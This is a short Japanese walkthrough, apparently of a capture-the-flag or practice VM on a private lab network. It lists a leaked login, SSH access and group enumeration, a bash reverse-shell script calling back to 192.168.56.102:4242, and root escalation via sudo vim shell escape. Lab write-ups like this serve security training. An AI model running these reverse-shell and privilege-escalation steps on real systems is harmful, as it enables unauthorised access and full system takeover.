 |ユーザ名|パスワード|
|:--|:--|
|daniel|C@ughtm3napping123|

### ssh
- `ssh daniel@192.168.56.105`
- `id` ユーザが1001,1002の複数所属しているグループを確認する

### システム内探索
- `id`
- `groups`
  - administratorsグループに属しているのがわかる
### データベースにアクセスする
- 特に何もない

### グループの実行可能ファイルを探して、リバースシェル
- `find / -group administrators 2> /dev/null`

### リバースシェルの準備、セッションの確立
- revshell.shファイルを作る
  ```
  #/bin/bash
  bash -c 'bash -i >& /dev/tcp/192.168.56.102/4242 0>&1'
  ```
- `chmod +x revshell.sh`

### 対話シェルを奪取


### ルートシェルの取得
- `sudo -l`
- `sudo /usr/bin/vim -c ':!/bin/sh'`
- `cd /root`
- `ls`
- `cat root.txt`
